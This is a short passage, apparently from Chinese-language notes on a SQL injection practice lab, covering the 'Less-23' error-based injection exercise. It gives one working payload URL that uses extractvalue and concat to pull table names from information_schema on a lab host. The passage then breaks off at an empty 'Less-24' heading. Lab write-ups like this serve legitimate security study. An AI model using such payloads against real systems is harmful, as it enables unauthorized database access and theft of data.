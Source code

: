 ![image-20241008094120495](./assets/image-20241008094120495.png)

****

### Less-23(报错注入)

```sql
#获取表名
http://8.137.60.154:8082/Less-23/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x3a)) and 1='#
```

![image-20241008094507495](./assets/image-20241008094507495.png)

****

### Less-24()

